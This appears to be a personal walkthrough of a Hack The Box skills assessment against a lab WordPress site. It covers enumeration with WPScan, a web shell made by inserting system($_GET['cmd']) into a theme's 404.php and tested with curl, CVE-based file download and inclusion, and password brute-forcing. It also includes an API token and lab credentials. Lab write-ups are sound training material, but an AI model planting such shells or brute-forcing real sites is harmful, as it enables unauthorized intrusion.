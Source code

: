 ```yaml
---
title: 'Skills Assessment:'
updated: 2023-07-23T17:01:06.0000000+01:00
created: 2023-07-22T02:43:26.0000000+01:00
---
```


Getting Started:

**Remember to add the website name to the etc/hosts file - otherwise the WordPress elements will not appear.** You can deduce these names via looking at the email name and blog page:
![image1](../../../../../_resources/image1-138.png)

Then you need to use sudo to edit your hosts file to add the IP and the domain names.
![image2](../../../../../_resources/image2-112.png)

This is because there isn't a DNS installed in most HTB environments, so we need to input the domain name manually.

Identifying the WordPress version number:

Our first goal is to find the Wordpress version we can do this manually via looking at the source code - or by performing an automated scan using WPScan. Simply ctrl+f in the source code of the blog website gives:
![image3](../../../../../_resources/image3-88.png)

Similarly, we can manually figure out the following:

- The Theme **twentynineteen** is being used.
  - Version 1.3
- There are a bunch of other plugins too.

Getting a shell using Metasploit:

Now that we have admin credentials, we can use Metasploit to get a reverse shell.

1.  Open msfconsole
2.  Search **wp_admin**
3.  Use **options** to configure system and **set** to config options
    1.  RHOSTS - target website
    2.  Username - admin username
    3.  Password - admin password
    4.  LHOST - VPN IP (your ip)
4.  **Exploit** the command

THIS DOESN'T WORK ^^^^^

Manual Exploitation:

1.  Navigate to the theme editor
2.  Change the 404.php of a theme to include: system(\$\_GET\['cmd'\]);
3.  Test it using curl
    1.  curl -X GET "blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=id"
    2.  ![image4](../../../../../_resources/image4-69.png)
4.  You now have a web shell
![image5](../../../../../_resources/image5-54.png)

Directory Indexing:

Manually, looking at the plugins via source code - we have directory indexing for:

- Email-subscribers plugin
- The-events-calendar plugin
- Uploads is actually has directory indexing and has the flag!
  - HTB{d1sabl3_d1r3ct0ry_l1st1ng!}

User Enumeration:

Author=1 points to an admin
Author=2 points to a user named Erika
Author=3 points to a user named Charlie Wiggins

Charlie Wiggins is our non-admin user.

WPScan:

Using our API Token (N19H91hA80yXpvNyuC0ysbERrs6m34YdDIsdU0jvTn8) we can just scan the website for vulnerabilities:
![image6](../../../../../_resources/image6-35.png)
(-e AP = enumerate all plugins). This gives us TONS of info and like 30 vulnerabilities.

Unauthenticated File Download:

[CVE-2019-19985](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19985) can be leveraged from the email-subscriber plugin. This allows an attacker to download files from the web server and can leak user details. You can exploit the unauthenticated download POC to get a flag:
![image7](../../../../../_resources/image7-29.png)

LFI (Local File Inclusion):

We can use [CVE-2018-7422](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422) to download and look at files via a local file inclusion vulnerability. We can use the POC:
![image8](../../../../../_resources/image8-25.png)

Brute Forcing Passwords:

Using WPScan we gained creds from the "Erika" user.
![image9](../../../../../_resources/image9-21.png)
![image10](../../../../../_resources/image10-16.png)
Erika:010203

We now have access to the word press admin panel.
